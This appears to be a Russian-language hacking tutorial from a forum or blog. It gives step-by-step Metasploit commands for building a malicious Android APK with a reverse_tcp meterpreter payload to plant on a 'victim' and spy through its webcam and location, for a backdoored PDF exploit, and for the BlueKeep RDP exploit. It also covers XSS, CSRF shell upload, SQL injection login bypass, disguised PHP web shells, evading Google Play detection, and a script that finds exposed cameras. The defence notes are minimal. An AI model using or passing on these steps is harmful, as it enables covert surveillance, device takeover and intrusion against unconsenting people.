

Metasploit
Framewrok
Nethunter
Metasploit – это платформа для тестирования, поиска и использования уязвимостей. Также для неё написаны много специальных дополнений например для быстрой генерации вредоноса
Для начала стоит сказать что атаки здесь можно воспроизводить хоть на хлебушек, хоть на яблоко, ведь база эксплоитов здесь действительно огроменна и подойдёт на любой вкус и цвет!
Генерация
Ну а сейчас давайте сгенерируем вредоносный апк и подключимся к зараженному устройству!
В главном приложении можно автоматически сгенерировать апк но а мы заходим в наш любимый терминал и пишем:
msfvenom -p android/meterpreter/reverse_tcp LHOST=ваш локальный ip
LPORT=4444(можно любой порт) R > msf.apk
После чего в той же директории у нас уже будет наш апк!Остаётся только засунуть его нашей жертве, подробнее как закриптовать такой апк от гугл плей защиты написано на нашем форуме, к сожалению если это попадёт в массы то гплей сразу пофиксят движок!
Подключение
чтобы "схватить" нашу сессию с устройства нам нужно прослушивать трафик для этого заходим в мсф и пишем в терминал:
use multi/handler set payload android/meterpreter/reverse_tcp set LHOST ip который вы указывали при создании пейлоада set LPORT порт который вы указывали при создании пейлоадa exploit Показать изображениеВозможности
Полный список команд, вы можете посмотреть введя в терминале "help".Давайте разберём парочку из них! WakeLock - внезапно заблокируйте экран! Screenshot - посмотрите что сейчас на экране! Geolocate - узнайте местоположение! Webcam_Stream - смотрите и слушайте жертву в реальном времени! И много других!
Здесь я решил не оставлять инструкцию для банального ехе.Мы будем использовать уязвимость и засунем бекдор в пдф! use exploit/windows/fileformat/adobe_utilprintf set FILENAME malicious.pdf set PAYLOAD windows/exec set CMD calc.exe show options exploit Здесь мы укажем что при открытии документа откроется командная строка!Но мы можем открыть powershell и залить в него пейлоад или просто выбрав пейлоад бекдор windows/meterpreter/reverse_tcp получим полный доступ!И снова напомню что все стоит криптовать!
BlueKeep
Hello bsod
BlueKeep - относительно старая уязвимость но все ещё актуальна, она позволяет при открытом RDP сервере на не обновленной тачке с Windows 2000 и заканчивая Windows Server 2008 R2 и Windows 7 выполнять произвольный код, были попытки её использовать для майнинга, не увенчалось успехом, пока что)
Есть масса способов как обнаружить эту уязвимость для Android девайсов советую Interceptor-NG если зажать устройство и дождаться окончания X-Scan нам скажут если будет обнаружена уязвимость! чтобы использовать его заходим в msf и вводим: use exploit/windows/rdp/cve_2019_0708_bluekeep_rce exploit Вуаля мы в системе!
Защита:
- Обновить все свои системы
- Не использовать RDP
XSS уязвимости
Разбор
XSS атака - для начала сразу стоит сказать что есть два типа, активная и пассивная!Пассивная это когда вы отправляете специальную ссылку и перехватываете, куки пользователя, допустим админа, а там уже можно сделать многое!А активная это когда мы пытаемся найти ошибку в фильтрах сайта, когда мы вводим команду в консоль с не закрытыми скобками "/?,#>>>><< script {()} " сервер пытаясь закрыть скобки выполняет наш код!
Сsrf атака
> input type="file" name="Filedata">
input type="submit" name="Submit" value="Upload"> /form>
Eсли создать такую форму то можно будет выполнить запрос и выбрав шелл загрузить его на сайт!
Sqli атака
Допустим вы нашли панель сайта!Есть вариант брутить, а можно попробовать sql инъекцию простым кодом ' или '1'='1' или 1=1/* с малым шансом, но вас может пропустить, или пробуйте найти уязвимость под найденную cms!
Залитие шелла
Можно попытать удачу и попробовать залить php файл как какую нибудь картинку пример : hi.php.jpg! Если все вышло то у нас вместо картинки будет белый экран!
Защита:
- Обновить СMS и фильтры сайта
- Правильно настроить .htacces
CamHacks
Скрипт
CamHacks - универсальный скрипт на Python который ищет по известным доркам в определённой странне
apt-get install python3 apt-get install git git clone https://github.com/AngelSecurityTeam/Cam-Hackers pip3 install requests cd Cam-Hackers python3 cam-hackers.py
И выбираем нужную страну!Буквально через пару минут у вас будет список ip. либо без логина либо admin/admin! 